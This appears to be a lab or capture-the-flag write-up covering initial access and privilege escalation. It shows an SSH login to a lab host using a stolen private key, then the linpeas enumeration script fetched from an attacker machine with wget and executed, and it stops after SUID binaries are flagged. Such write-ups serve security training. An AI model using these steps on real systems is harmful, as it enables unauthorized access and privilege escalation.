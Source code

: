## Initial Foothold 

1. Log in as `max` using the downloaded `id_rsa` private key
```bash
ssh -i id_rsa max@192.168.128.100
```
Login success and found the `local.txt` file under the` /home/dennis `

![](images/2025-08-30_3.png)

## Privilege Escalation
- Upload the `linpeas.sh` to the target host.
```bash
python3 -m htt.server -d . # same directory as linpeas.sh
```
```bash
wget http://<kali-ip>:8000/linpeas.sh linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Findings**:
- **Linpeas flagged **SUID binaries** (setuid root programs). These are often exploitable to escalate privileges.
  
![](images/2025-08-30_4.png)
